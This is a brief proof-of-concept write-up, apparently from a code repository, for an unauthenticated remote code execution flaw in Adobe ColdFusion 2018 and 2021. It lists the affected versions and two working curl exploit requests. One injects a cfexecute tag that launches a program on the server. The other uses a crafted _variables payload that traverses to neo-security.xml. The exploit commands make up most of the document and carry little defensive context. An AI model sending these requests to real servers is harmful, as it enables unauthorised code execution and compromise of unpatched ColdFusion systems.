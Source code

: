 未经身份验证的远程代码执行
# description

  Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in arbitrary code execution in the context of the current user.

# version

<= 2018 Update 15
<= 2021 Update 5

# poc
```
 curl  -k -X POST ‘http://192.168.188.129:8500/CFIDE/AIR/Conflict.cfc?method=test&_cfclient=true’ -d _variables=<cfexecute name=’/usr/bin/gnome-calculator’></cfexecute>
```

```
curl -v -k http://127.0.0.1:8500/testing.cfc?method=foo^&_cfclient=true^&returnFormat=wddx -X POST -H "Content-Type: application/x-www-form-urlencoded" --data "_variables={\"_metadata\":{\"classname\":\"\\..\\lib\\neo-security.xml\",\"_variables\":[]}}"
```
